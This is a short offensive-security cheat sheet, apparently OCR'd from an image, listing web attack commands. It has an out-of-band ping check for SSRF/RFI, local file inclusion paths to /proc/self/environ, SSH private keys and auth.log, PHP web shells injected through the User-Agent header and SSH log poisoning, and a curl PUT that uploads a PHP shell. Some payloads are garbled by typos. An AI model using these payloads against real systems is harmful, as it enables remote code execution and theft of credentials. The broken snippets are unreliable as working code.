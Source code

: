 ### check for ssrf or RFI 

```
kali
sudo tcpdump icmp -i tun0

Webserver
python3 <webserver-url> -c "ping -c4 <attacker-ip>"
``` 

### LFI
```
file=../../../../../proc/self/environ

change user-agent: <?php system[$_GET['cmd']); ?>

<url>/console?file=../../../../../proc/self/environ?cmd=id
```
```
/home/user/.ssh/id_rsa
/var/log/auth.log
try ssh poisinong
nc -nv <ip> 22
omgthissofun/<?php passthru($_GET['cmd']); ?>          # this will refeclt in /var/log/auth.log
```
### PDF to text 
```
pdftotext *.pdf
```

### PUT 
```
 curl -X PUT -d '<?php system($_GET["c"]);?>' http://192.168.2.99/shell.ph
```
